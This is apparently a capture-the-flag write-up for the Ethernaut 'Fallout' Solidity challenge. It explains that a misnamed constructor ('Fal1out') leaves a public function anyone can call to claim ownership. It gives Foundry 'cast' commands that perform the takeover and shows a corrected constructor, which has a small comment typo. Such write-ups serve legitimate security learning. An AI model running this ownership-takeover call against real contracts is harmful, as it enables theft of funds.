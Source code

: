 # Fallout

Claim ownership of the contract.

## Vulnerability

In Solidity, the constructor function is a special function that is executed only once when the contract is deployed. It is typically used to initialize state variables. The name of the constructor function should be the same as the name of the contract. In your case, the contract name is `Fallout` but the constructor function is named `Fal1out`.

This mismatch means that `Fal1out` is not a constructor function but a regular public function that can be called by anyone. This allows anyone to take ownership of the contract by calling the `Fal1out` function.

## Attack

1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
3. cast send $CONTRACT_ADDRESS "Fal1out()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL

## Fix

```javascript
* constructor */
constructor() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```
